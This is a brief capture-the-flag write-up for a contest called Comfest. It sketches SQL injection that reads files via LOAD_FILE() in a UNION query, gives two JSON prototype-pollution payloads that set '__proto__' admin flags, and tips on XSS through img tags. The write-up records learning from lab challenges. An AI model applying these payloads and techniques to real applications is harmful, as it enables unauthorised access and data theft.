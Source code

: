 Writueps for Comfest ctf

1)Lets Help John

 Just a bunch of headers like User Agent, From etc. Didn't learn anything new.

2) Chicken Daddy : Direct sqli injection. Just had to search about reading arbitrary files in mysql using LOAD_FILE() method and use in UNION query.

3)SIAK-OG : Actually implementation of proto pollution attack in a CTF. Learnt that if there are a lot of key value pairs it might be easier to just set them all to required 
values at the start only like this:

```
payload = json.dumps({
  "__proto__": {
    "admin": True,
    "taken": True,
    "available": True,
    "dummy": {
      "available": True,
      "taken": True
    }
  },
  "DSA": {
    "taken": True
  }
})
```
instead of doing it only for the thing required like this:
```
json={
    "Calculus 1": {"taken": True},
    "DSA": {"taken": True, "available": True, "__proto__": {"available": True, "taken": True}},
    "__proto__": {
        "admin": True,
    },
}
```
Though both are correct.

Copasbin :  checkNpmDeps.js should be run when source given whenever feasible. Helps to narrow down and find implementation of specific vulns.
Also a reminder that innerHTML does not allow inserting <script> tags specifically for XSS. Basically just use <img for XSS even normally.
https://discord.com/channels/1100842688250654732/1100842689148244143/1282364982733836308



